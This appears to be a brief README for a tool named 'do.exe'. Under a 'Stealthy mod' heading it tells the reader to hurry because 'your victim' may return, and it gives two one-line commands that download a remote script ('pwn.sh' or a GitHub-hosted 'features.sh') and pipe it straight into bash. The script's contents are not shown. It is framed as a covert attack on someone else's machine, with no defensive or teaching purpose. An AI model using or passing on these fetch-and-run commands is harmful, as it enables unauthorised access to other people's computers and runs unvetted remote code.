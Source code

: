 # do.exe

## Get started

```
bash features.sh
```

## Stealthy mod

You are in a panic state, your victim can come from one moment to another and you need to execute the script at full speed without go in GitHub:

### With DNS :
```
bash <(curl -L do.yubu.app/pwn.sh) 
```
### Without DNS :

```
bash <(curl https://raw.githubusercontent.com/LeoDevSecOps/do.exe/main/features.sh)
```
